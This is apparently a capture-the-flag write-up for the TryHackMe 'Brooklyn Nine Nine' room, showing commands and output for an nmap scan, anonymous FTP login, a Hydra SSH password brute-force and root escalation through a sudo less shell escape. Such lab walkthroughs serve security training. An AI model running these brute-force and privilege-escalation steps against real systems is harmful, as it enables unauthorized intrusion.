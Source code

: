 # Brookly Nine Nine

Tryhackme room link : [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

## Nmap scan

`nmap -T 4 -sV 10.10.125.55`

```

Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 10:56 EDT
Nmap scan report for 10.10.125.55
Host is up (0.22s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.89 seconds
```

## FTP 

Lets try `anonymous` login

`ftp 10.10.125.55`

```

Connected to 10.10.125.55.
220 (vsFTPd 3.0.3)
Name (10.10.125.55:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

We were logged in ftp

```

ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```

Lets transfer the `note_to_jake.txt` to local machine and read its content

```

ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (1019.3942 kB/s)
```

`cat note_to_jake.txt `

```

From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

We get three users **jake** , **holt** and **amy** . Since the text is about Jake's weak password, we might be able to get ssh access with Jake, lets check

## Hydra 

using hydra for user `jake` for ssh login password

`hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.125.55 ssh`

```

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-26 11:14:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.125.55:22/

[22][ssh] host: 10.10.125.55   login: jake   password: *********

1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-26 11:14:54
```

## SSH

`ssh jake@10.10.125.55`

```

The authenticity of host '10.10.125.55 (10.10.125.55)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.125.55' (ECDSA) to the list of known hosts.
jake@10.10.125.55's password: 
Last login: Tue May 26 08:56:58 2020
```

lets check for user.txt file

```

jake@brookly_nine_nine:~$ find / -type f -name user.txt 2>/dev/null
/home/holt/user.txt
```

### user.txt 

```

jake@brookly_nine_nine:~$ cat /home/holt/user.txt
*********************************
```

lets check for root.txt

`find / -type f -name root.txt 2>/dev/null`

we get nothing

## Privilege Escalation

lets check for sudo permission for `jake`

`sudo -l`

```

Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

**use GTFOBins for less command**

```

sudo less /etc/profile
!/bin/sh
```

using this we got the root access

```

# whoami
root
# cd /root
# ls
root.txt
# cat roo.txt
cat: roo.txt: No such file or directory
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: ***********************************

Enjoy!!
```
